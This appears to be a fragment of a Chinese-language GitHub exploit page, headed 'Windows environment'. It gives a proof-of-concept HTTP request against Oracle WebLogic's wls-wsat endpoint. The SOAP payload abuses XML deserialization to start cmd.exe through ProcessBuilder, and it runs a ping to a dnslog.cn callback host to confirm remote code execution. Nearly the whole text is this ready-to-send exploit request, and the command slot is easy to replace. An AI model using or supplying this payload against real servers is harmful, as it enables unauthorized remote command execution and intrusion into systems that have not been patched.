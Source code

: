 
2. Windows环境

**POC:**
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: xxxxxxx:7001
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: text/xml
Content-Length: 830

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
      <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
          <java>
            <object class="java.lang.ProcessBuilder">
              <array class="java.lang.String" length="3">
                <void index="0">
                  <string>C:\\windows\\system32\\cmd.exe</string>
                </void>
<void index="1">
                  <string>/c</string>
                </void>
<void index="2">
                  <string>ping vpq7z7.dnslog.cn</string>
                </void>
              </array>
              <void method="start"/>
            </object>
          </java>
        </work:WorkContext>
      </soapenv:Header>
      <soapenv:Body/>
    </soapenv:Envelope>
```
